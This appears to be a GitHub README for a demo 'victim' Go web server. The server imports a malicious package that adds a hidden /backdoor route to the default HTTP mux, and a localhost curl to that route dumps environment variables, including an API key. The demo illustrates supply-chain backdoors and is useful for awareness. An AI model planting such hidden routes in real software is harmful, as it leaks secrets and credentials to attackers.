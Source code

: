# backdoor-victim

Demo for backdooring golang's `http.DefaultServeMux`

## Purpose

This is an example victim that is simply trying to make a classic "Hello World" webserver with Go. For whatever reason, they included a malicious package that adds a backdoored HTTP route.

> **Note:** The [`backdoor`](https://github.com/picatz/backdoor) package is being explictly used here. But, it could've also been used anouther third-part library as a middle-man that that imported rather than so directly done here.

## Testing

Run the server:

```console
$ go run main.go
```

In anouther terminal (or in your browser) hit the default route:

```console
$ curl http://127.0.0.1:8080/
Hello world!
```

Then check the backdoor route to *sneakily* list the application environment variables:

```console
$ curl http://127.0.0.1:8080/backdoor
TERM=xterm-256color
SHELL=/bin/bash
SERVICE_API_KEY=77686174206973206C6F76653F206261627920646F6E27742068757274206D65
...
```
